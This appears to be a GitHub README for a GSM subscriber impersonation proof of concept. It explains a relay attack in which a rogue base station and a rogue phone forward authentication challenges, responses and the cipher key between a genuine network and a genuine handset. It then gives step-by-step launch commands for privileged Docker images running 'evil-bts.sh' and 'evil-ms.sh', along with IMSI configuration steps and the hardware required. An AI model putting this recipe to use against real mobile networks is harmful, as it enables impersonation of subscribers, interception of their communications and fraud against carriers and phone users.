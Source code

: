 - The BTS send a rand,key_sequence to the MS.
- The MS respond SRes = f(ki,rand)
- The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :
- The genuine BTS send a rand,key_seq to the Evil MS.
- The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
- The Evil BTS send the rand,key_seq to genuine MS
- The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
- In the example video Kc is forwarded between Genuine MS-> Evil MS

[Impersonnate PoC](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry...

[Impersonalisaion (français)](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;)
[Impersonate (english)](https://www.youtube.com/watch?v=rSGA4oFsFrQ)

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

```bash
apt remove brltty
```
on host (not on docker !)
Launch 1st
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```
Launch 2nd
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts
```bash
tmux
cd /
service pcscd start
./evil-bts.sh
```
`
then in ms :
```bash
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```
set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader
